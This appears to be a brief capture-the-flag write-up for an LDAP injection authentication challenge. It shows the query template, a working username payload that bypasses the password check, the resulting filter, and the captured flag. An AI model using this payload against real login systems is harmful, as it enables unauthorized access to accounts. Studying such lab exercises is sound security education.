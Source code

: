 ```yaml
---
layout: default
title: LDAP-injection-Authentication
---
```


Here there is basic `LDAP Injection`.

The `LDAP` query looks like, where `{}` contain user input:
```
(&(uid={})(userPassword={}))
```

So, if we give this:
```
username=*)(|(uid=*&password=a)
```

The query will be:
```
(&(uid=*)(|(uid=*)(userPassword=a)))
```
Which tranlates to:
```
(   & (uid=*)  ) 
(   | (uid=*)(userPassword=a)  )
```
And because there are users which aren't null, the query will work.

![FINAL](./images/LDAP-injection-Authentication_FINAL.png)

**Flag:** **_`SWRwehpkTI3Vu2F9DoTJJ0LBO`_**